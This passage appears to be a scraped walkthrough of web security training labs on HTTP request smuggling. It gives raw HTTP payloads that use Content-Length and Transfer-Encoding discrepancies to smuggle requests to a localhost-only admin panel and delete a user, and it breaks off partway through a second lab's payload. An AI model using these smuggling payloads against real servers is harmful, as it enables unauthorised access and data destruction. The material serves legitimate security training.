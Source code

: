     x=1  
    0  
      
    `
    
    **Note**
    
    You need to include the trailing sequence `\r\n\r\n` following the final `0`.
    
-   Observe that the merged request to `/admin` was rejected due to not using the header `Host: localhost`.
-   Issue the following request twice:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-length: 4  
    Transfer-Encoding: chunked  
      
    71  
    POST /admin HTTP/1.1  
    Host: localhost  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 15  
      
    x=1  
    0  
      
    `
-   Observe that you can now access the admin panel.
-   Using the previous response as a reference, change the smuggled request URL to delete the user `carlos`:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-length: 4  
    Transfer-Encoding: chunked  
      
    87  
    GET /admin/delete?username=carlos HTTP/1.1  
    Host: localhost  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 15  
      
    x=1  
    0  
    `

### Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting

1.  Browse to `/admin` and observe that the admin panel can only be loaded from `127.0.0.1`.
2.  Use the site's search function and observe that it reflects the value of the `search` parameter.
3.  Use Burp Repeater to issue the following request twice.  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 124  
    Transfer-Encoding: chunked  
      